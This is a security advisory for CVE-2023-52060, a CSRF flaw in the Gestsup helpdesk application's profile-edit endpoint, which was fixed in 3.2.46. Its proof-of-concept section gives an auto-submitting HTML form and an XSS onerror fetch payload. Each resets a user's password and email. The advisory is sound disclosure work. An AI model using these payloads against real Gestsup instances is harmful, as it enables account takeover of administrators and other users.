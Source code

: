 # CVE-2023-52060

## Summary

| ID                    | CVE-2023-52060                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | CSRF                                                     |
| **Title**             | CSRF on profile's information change request             |
| **Product impacted**  | Gestsup                                                  |
| **Impacted version**  | < 3.2.46                                                 |
| **CVSS Score**        | 6.5                                                      |
| **Author**            | Sopalinge                                                |

## Description

A lack of CSRF protection in the request to edit a user's profile information in Gestsup < 3.2.46 allows attackers to perform a Cross-Site Request Forgery (CSRF) attack.

The `index.php?page=admin/user&action=edit&userid=1&tab=infos` endpoint can be exploited to craft a malicious POST request which can be used to trick users into unknowingly changing their information, including email address and password.


## Impact

An attacker could trick another user into unknowingly changing their password when visiting a malicious website. Note that the SameSite attribute is not defined which means that the behaviour will depend on the victim's browser.

Combined with [CVE-2023-52059](../CVE-2023-52059/README.md), it can be used to take over privileged accounts directly from the Gestsup application.


## Proof of concept
### CSRF

The following HTTP code can be hosted on a malicious website. A user tricked into visiting this page has a risk (depedning on multiple factors like the browser used) to have his password, email and function edited.

```
<form id="autosubmit" action="http://localhost:3010/gestsup/index.php?page=admin/user&action=edit&userid=1&tab=infos" method="POST">
    <input type="hidden" name="attachment" value="0" />
    <input type="hidden" name="language" value="fr_FR" />
    <input type="hidden" name="profile" value="4" />
    <input type="hidden" name="firstname" value="admin" />
    <input type="hidden" name="lastname" value="" />
    <input type="hidden" name="login" value="admin" />
    <input type="hidden" name="password" value="admin" />
    <input type="hidden" name="password2" value="admin" />
    <input type="hidden" name="mail" value="admin@example.com" />
    <input type="hidden" name="function" value="hacked" />
    <input type="hidden" name="modify" value="modify" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.getElementById("autosubmit").submit();
</script>
```



https://github.com/Tanguy-Boisset/CVE/assets/83412402/3bf74a94-c885-40f2-a13e-eda5334affc5



### XSS and CSRF

Using [CVE-2023-52059](../CVE-2023-52059/README.md) in the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to exploit the CSRF to change the pasword, email and function of any user viewing the ticket :

```
<img src=x onerror="fetch('./index.php?page=admin/user&action=edit&userid=1&tab=infos', {method: 'POST', headers: {'Content-Type':'application/x-www-form-urlencoded'},body: 'attachment=0&language=fr_FR&profile=4&firstname=admin&lastname=&login=admin&password=admin&password2=admin&mail=admin@example.com&function=hacked&modify=modify'})" />
```

https://github.com/Tanguy-Boisset/CVE/assets/83412402/69514524-4530-47b6-907e-0b593bd4e691


## Timeline

- 24/12/2023 : Vulnerability discovered
- 24/12/2023 : Vendor contacted
- 25/12/2023 : Official fix published
- 25/01/2024 : CVE ID attributed
- 12/02/2024 : CVE publicly disclosed


## References

- [Gestsup website](https://gestsup.fr/index.php?page=home)
- [Fixing patch](https://gestsup.fr/index.php?page=download&channel=beta&version=3.2.46&type=patch)
